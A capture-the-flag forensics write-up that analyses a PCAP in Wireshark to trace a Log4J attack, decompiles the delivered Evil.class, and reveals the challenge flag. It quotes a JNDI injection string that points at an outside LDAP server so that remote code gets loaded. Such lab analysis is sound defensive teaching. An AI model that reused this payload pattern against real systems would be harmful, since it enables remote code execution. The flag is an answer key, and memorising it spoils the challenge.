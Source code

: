 # Log4jVulnExtra | Difficulty: Medium

## Requirements:

- Anaylzing PCAP file using software like Wireshark
- Base understanding about Log4J CVE-2021-45105 and how attacks are done

---

## Steps:

1.  Open `packets.pcap` using any packet analysis software you want. I will be using `Wireshark`.
2.  Identify that a potential Log4J attack might have occured.

    You can determine this by searching for any packets using the `LDAP` protocol or whether any IPs contains the word `jndi` in them.

    ![LDAP search](Guide-Media/2022-05-16%2019-12-32.png)
    ![jdni search](Guide-Media/2022-05-16%2019-13-00.png)

3.  Examine the suspicious HTTP request.

    From our search for whether any IP contains jndi, we noticed a suspicious packet.\
    Let us examine this packet further.

    You can right-click on the packet in `Wireshark` and select the option: `Follow -> HTTP Stream`.

    ![Follow stream](Guide-Media/2022-05-16%2019-14-58.png)

    From this we can extract only one piece of information:

    ```
    ${jndi:ldap://52.221.178.168:389/Basic/Command/Base64/V2hhdCBlbHNlIGNvdWxkIHRoZXJlIGJlPw==}
    ```

    However after decoding this as `base64`, we realize it leads to nothing:

    ```
    V2hhdCBlbHNlIGNvdWxkIHRoZXJlIGJlPw==
    ```

    Using any decoder you wish results in this:

    ```
    What else could there be?
    ```

    Which does not give us anything.

4.  After more digging we notice a series of HTTP packets.

    ![Http Packets](Guide-Media/2022-05-16%2019-19-13.png)

    It seems that the LDAP request was redirected to a HTTP request which returned an object, `Evil.class`.

    We can export this object straight from `Wireshark`.\
    Go to `File -> Export Objects -> HTTP...`:

    ![Export Evil.class](Guide-Media/2022-05-16%2019-21-52.png)

5.  Use a `Java Decompiler` to decompile and view the contents of `Evil.class`.

    I will be using an online decompiler which is found [here](http://www.javadecompilers.com/).

    After successfully decompiling the Java class, here is our result:

    ![Evil.class decompiled](Guide-Media/2022-05-16%2019-25-04.png)

    Success! We have found our flag.

        flag@java_class_decompiled
